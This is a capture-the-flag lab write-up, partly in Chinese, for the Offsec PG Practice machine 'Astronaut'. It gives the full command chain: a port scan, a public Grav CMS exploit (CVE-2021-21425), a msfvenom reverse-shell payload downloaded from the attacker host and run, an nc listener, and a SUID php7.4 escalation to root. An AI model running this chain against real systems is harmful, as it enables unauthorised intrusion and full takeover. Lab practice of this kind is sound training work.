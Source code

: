###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Astronaut
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.237.12 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.237.12:22
Open 192.168.237.12:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

google找到這個[CVE-2021-21425
](https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py)，直接下載reverseshell，測試可成功
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.209 LPORT=9001 -f elf > shell_9001

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 exploit.py -c "wget 192.168.45.209/shell_9001" -t http://192.168.237.12/grav-admin

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 exploit.py -c "chmod +x shell_9001; ./shell_9001" -t http://192.168.237.12/grav-admin
```

開nc等反彈，列出binaries，有一個`/usr/bin/php7.4`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gravity:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
```

查[GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid)，成功後在`/root`路徑可拿到proof.txt
```
www-data@gravity:/var/www/html/grav-admin$ install -m =xs $(which php7.4) .
www-data@gravity:/var/www/html/grav-admin$ CMD="/bin/sh"
www-data@gravity:/var/www/html/grav-admin$ /usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"

# whoami
root

# cat proof.txt
980b63f9f918641e61c0ebb60486f038
```
